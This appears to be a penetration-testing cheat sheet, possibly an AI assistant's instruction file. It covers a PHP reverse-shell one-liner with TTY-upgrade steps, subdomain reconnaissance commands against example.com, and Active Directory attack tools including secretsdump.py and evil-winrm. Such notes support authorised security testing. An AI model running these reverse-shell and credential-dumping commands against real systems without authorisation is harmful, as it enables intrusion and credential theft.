 ### Shell Upgrade
[example of reverse shell]
php -r '$sock=fsockopen("127.0.0.1",8000);exec("/bin/sh -i <&3 >&3 2>&3");'

[in remote shell]
which python
which python3
python3 -c 'import pty;pty.spawn("/bin/bash")'
^Z

[on local system]
stty size
stty raw -echo; fg

[in remote shell]
stty cols XX
stty rows YYY
export TERM=xterm-256color

### Recon
Google Dorking:
	site:example.com inurl=.jsp
	site:example.com inurl=login
	site:example.com title=admin
subfinder
	subfinder -d example.com -all -cs | tee -a example.com-subfinder.txt
host
	cat example.com-subfinder.txt | cut -d "." -f 1 | tee -a example.com-domains.txt
	cat example.com-domains.txt | xargs -I{} host {} | tee -a example.com-hosts.txt
httpx
	cat example.com-domains.txt | httpx -title -wc -sc -cl -ct -web-server -asn -o example.com-httpx.txt -p 80,443,3000,5000,7070,8000,8008,8080,8443,9000,9000,9200,15672 -threads 75 -location
amass
	amass enum -brute -min-for-recursive 2 -d example.com
	amass enum -active -d example.com -p 80,443,8080
	amass enum --passive -d example.com

### Windows Testing from Linux
Active Directory Enumeration: 
	rpcclient - https://github.com/doronz88/rpc-project
	smbclient - https://help.ubuntu.com/community/Samba/SambaClientGuide
	nxc - https://www.netexec.wiki/
	bloodhound - https://github.com/SpecterOps/BloodHound
	evil-winrm - https://github.com/Hackplayers/evil-winrm
	psexec.py - https://pypi.org/project/pypsexec/
	secretsdump.py - https://github.com/fortra/impacket/tree/master

### Communication and Style
When you communicate in the chat, write code comments, documentation or reports, please use ASCII characters only. Never use icons, emojis, or any other images (use ASCII alternatives instead if really necessary).
